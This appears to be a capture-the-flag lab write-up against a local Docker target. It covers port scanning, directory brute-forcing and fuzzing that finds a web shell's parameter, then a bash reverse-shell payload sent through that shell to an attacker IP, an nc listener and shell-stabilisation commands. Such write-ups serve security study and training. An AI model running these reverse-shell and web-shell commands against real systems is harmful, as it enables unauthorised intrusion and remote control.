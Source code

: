 ![image](https://github.com/user-attachments/assets/b22fc6d1-75fc-4d2b-b005-97c7dc0a66a8)

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p80 172.17.0.2 -oN targeted
```
![Pasted image 20250124131455](https://github.com/user-attachments/assets/697339da-a0e7-4b30-b63f-f5b617abee52)
![Pasted image 20250124131527](https://github.com/user-attachments/assets/44890f1a-a5d3-4d0f-98cd-f1c6440970d5)

## **inside the web site we found this message that may be a clue**

![Pasted image 20250124131607](https://github.com/user-attachments/assets/be8383c3-840f-4777-916a-648f70fcf08e)

## **the only port open is port 80 we have no other way to gain access so we could look for a vulnerability in the apache version or do a reconnaissance looking for hidden directories.**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```
![Pasted image 20250124131901](https://github.com/user-attachments/assets/f27ae677-9446-4b91-8337-52f8a46eb121)

## **we get several hidden directories we will start investigating**

![Pasted image 20250124131952](https://github.com/user-attachments/assets/4b8b5428-5611-4124-9d40-500922842c84)
![Pasted image 20250124132012](https://github.com/user-attachments/assets/e31be5f7-8fbc-491f-be06-30e819961878)
![Pasted image 20250124132049](https://github.com/user-attachments/assets/7765e5af-c38f-45dd-8711-65380038632e)
![Pasted image 20250124132121](https://github.com/user-attachments/assets/8cdb38bf-e9c6-4646-b805-ff5ab6623fef)
![Pasted image 20250124132211](https://github.com/user-attachments/assets/b3299736-f2d9-4257-8bd7-26434315a5a5)

## **this is all the information we have found in one of which we are told that the hacker used a web shell but he does not remember the parameter
here is an example of a web shell**

![Pasted image 20250124132804](https://github.com/user-attachments/assets/00955073-d328-405d-84e5-06faae2aaae1)

## **now we have to look for the parameter applying fuzzing with 'wfuzz' where we will replace the values of a list by the value of “x”.**
```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```
![Pasted image 20250124133708](https://github.com/user-attachments/assets/3cdc74f7-e2a9-4c93-9d3a-cecf24d5dd50)

## **using the above format we enter the web**

![Pasted image 20250124133822](https://github.com/user-attachments/assets/ad63e6cd-e85d-4152-94d2-0ec27fd6b80b)

## **now we have access to our access now we have to send a remote shell to our pc**
```bash
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.1.228/443 0>%261"
```
![Pasted image 20250124134240](https://github.com/user-attachments/assets/cbb15098-89b3-4510-ac1c-36c7c38479eb)

## **and we will listen in on our attacker's machine.**
```bash
nc -nlvp 443
```
![Pasted image 20250124134338](https://github.com/user-attachments/assets/7157618a-f9b1-417b-9141-a6fee8b806fc)

## **we already have access as the user www-data what remains now is to do a treatment of the tty**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
![Pasted image 20250124134804](https://github.com/user-attachments/assets/d524407f-c818-4b5f-94d1-43ae857a5054)
